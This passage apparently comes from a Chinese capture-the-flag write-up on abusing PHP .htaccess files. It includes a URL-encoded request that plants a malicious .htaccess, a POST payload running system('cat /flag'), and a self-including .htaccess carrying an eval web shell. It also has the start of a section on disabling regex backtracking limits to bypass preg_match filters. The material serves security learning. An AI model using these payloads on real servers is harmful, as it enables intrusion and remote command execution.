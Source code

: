 将上述内容进行url编码，然后构造 url 并执行：

```
/index.php?filename=.htaccess&amp;content=php_value%20include_path%20%22%2Ftmp%22%0Aphp_fl%5C%0Aag%20zend.multibyte%201%0Aphp_value%20zend.script_encoding%20%22UTF-7%22%0A%23%20%5C
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0121c66e09d658fae7.png)
- **第四步：构造如下读取flag**
```
POST: whoami=system('cat /flag');
```

[![](https://p0.ssl.qhimg.com/t01a75e77dd2803f178.png)](https://p0.ssl.qhimg.com/t01a75e77dd2803f178.png)

如上图所示，成功执行命令并得到flag。

这个题也可以用通过包含 .htaccess 自身的方法Getshell：

```
php_value auto_prepend_fi\
le ".htaccess"
#&lt;?php @eval($_GET['cmd']); ?&gt;\
```

### <a class="reference-link" name="%E6%AD%A3%E5%88%99%E5%9B%9E%E6%9C%94%E7%BB%95%E8%BF%87%E6%AD%A3%E5%88%99%E5%8C%B9%E9%85%8D"></a>正则回朔绕过正则匹配

[《PHP利用PCRE回溯次数限制绕过某些安全限制》](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html) 这篇文章中提到了一个正则回朔绕过 preg_match 检测的方法。即 PHP 的配置选项 pcre.backtrack_limit 给 pcre 设定了一个回溯次数上限，默认为1000000，如果回溯次数超过这个数字，preg_match 会返回false，我们可以通过这一点来绕过 preg_match 等函数正则匹配的检测。

由于 .htaccess 可以设定 PHP 的配置选项，那我们便可以将 pcre.backtrack_limit 设为 0 ，从而利用这个漏洞：

```
php_value pcre.backtrack_limit 0
php_value pcre.jit 0
# \
```

我们还是通过刚才那个 CTF 例题来看一下具体的利用过程。

进入题目，给出源码：

```
&lt;?php
    ......
    $filename = $_GET['filename'];
    if(preg_match("/[^a-z\.]/", $filename) == 1) `{`
        echo "Hacker";
        die();
    `}`
    ......
    file_put_contents($filename, $content . "\nJust one chance");
?&gt;
```
